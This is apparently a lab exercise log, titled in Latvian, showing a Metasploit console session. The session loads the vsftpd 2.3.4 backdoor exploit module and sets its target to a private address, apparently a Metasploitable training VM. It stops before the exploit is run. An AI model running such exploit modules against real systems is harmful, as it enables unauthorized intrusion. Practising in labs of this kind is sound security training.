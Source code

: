 **Metasploitable-framework rezultātu izvade**
=============================================

**msf6 > use exploit/unix/ftp/vsftpd_234_backdoor**
```
[*] No payload configured, defaulting to cmd/unix/interact

```
**msf6 exploit(unix/ftp/vsftpd_234_backdoor) > show options**
```
Module options (exploit/unix/ftp/vsftpd_234_backdoor):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   CHOST                     no        The local client address
   CPORT                     no        The local client port
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT    21               yes       The target port (TCP)


Exploit target:

   Id  Name
   --  ----
   0   Automatic



View the full module info with the info, or info -d command.
```
**msf6 exploit(unix/ftp/vsftpd_234_backdoor) > set Rhost 192.168.1.11**
```
Rhost => 192.168.1.11
```
**msf6 exploit(unix/ftp/vsftpd_234_backdoor) > show options**
```
Module options (exploit/unix/ftp/vsftpd_234_backdoor):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   CHOST                     no        The local client address
   CPORT                     no        The local client port
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS   192.168.1.11     yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT    21               yes       The target port (TCP)


Exploit target:

   Id  Name
   --  ----
   0   Automatic



View the full module info with the info, or info -d command.

msf6 exploit(unix/ftp/vsftpd_234_backdoor) >

```
